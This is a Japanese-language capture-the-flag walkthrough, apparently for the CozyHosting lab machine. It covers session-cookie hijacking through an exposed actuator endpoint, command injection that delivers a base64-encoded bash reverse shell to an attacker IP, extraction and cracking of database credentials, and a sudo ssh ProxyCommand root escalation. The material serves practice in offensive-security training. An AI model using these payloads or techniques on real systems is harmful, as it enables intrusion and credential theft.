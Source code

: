 
#### nmap
![[Pasted image 20230908201102.png]]

/etc/hostsに「cozyhosting」を登録

![[Pasted image 20230908201244.png]]
webにアクセスしてみる
![[Pasted image 20230908201411.png]]

ログインページにがあるがクレデンシャルがわからない
![[Pasted image 20230908201634.png]]

dirsearchでディレクトリを検索

![[Pasted image 20230908201749.png]]

「/actuator/sessions」にアクセスするとcookieの値がでるのでウェブ開発ツールのストレージから値を変更してユーザー名とパスワードを適当に入れるとするとログインできる
![[Pasted image 20230908202427.png]]
![[Pasted image 20230908202842.png]]

「Hostname」と「Username」を適当に入れてBurpで受信してみる
![[Pasted image 20230908203142.png]]


sshの文字が見える
試しにUsernameを空で送信してみる

![[Pasted image 20230908203424.png]]

sshのエラーが帰ってきている
コマンドインジェクションの脆弱性の可能性がある

```shell
;echo $ { IFS } "[ PAYLOAD ]" | base64 $ { IFS }-d | bash;
```

「Username」に
```shell
/bin/bash -i >& /dev/tcp/10.10.14.11/9001 0>&1
```
をbase64に変換して送るとリバースシェルが獲れる
```shell
;echo$(IFS)"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExLzkwMDEgMD4mMQ=="|base64$(IFS)-d|bash
```

![[Pasted image 20230908204741.png]]
>IFSは空白やタブを意味する

python3でシェルを安定化する
![[Pasted image 20230908205054.png]]

ホームディレクトリに「cloudhosting-0.0.1.jar」ファイルがあるのでローカルにダウンロードする

![[Pasted image 20230908205601.png]]

「.jar」はzipと同じ圧縮形式なので「unzip」で解凍する
![[Pasted image 20230908205727.png]]

/etc/passwdから「josh」とゆうユーザーが要ることが分かる
![[Pasted image 20230908210045.png]]

解凍してできた物の中にposgresqlのクレデンシャルがある
「BOOT-INF/classes/application.properties」
![[Pasted image 20230908210514.png]]

ターゲット側でpostgresqlに接続する
**psql "postgresql:// $ DB_USER:$ DB_PWD @ $ DB_SERVER / $ DB_NAME"**

```shell
psql "postgresql://postgres:Vg&nvzAQ7XxR@localhost/postgres"
```

「\\list」ですべてのデータベースを表示
![[Pasted image 20230908211122.png]]

「\\c cozyhosting」でデータベースの切り替え
「\\d」ですべてのテーブル表示
![[Pasted image 20230908211503.png]]

SELECT文でテーブルの中を表示
![[Pasted image 20230908211619.png]]

ハッシュが取得できたのでjohnで解析
![[Pasted image 20230908211848.png]]
Username:josh
Password:manchesterunited

取得したクレデンシャルでSSH接続を実施
![[Pasted image 20230908212105.png]]

#### 特権昇格
「sudo -l」で確認すると
![[Pasted image 20230908212245.png]]

sshで特権昇格できそうなのでGTFOBINで調べる

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![[Pasted image 20230908212530.png]]

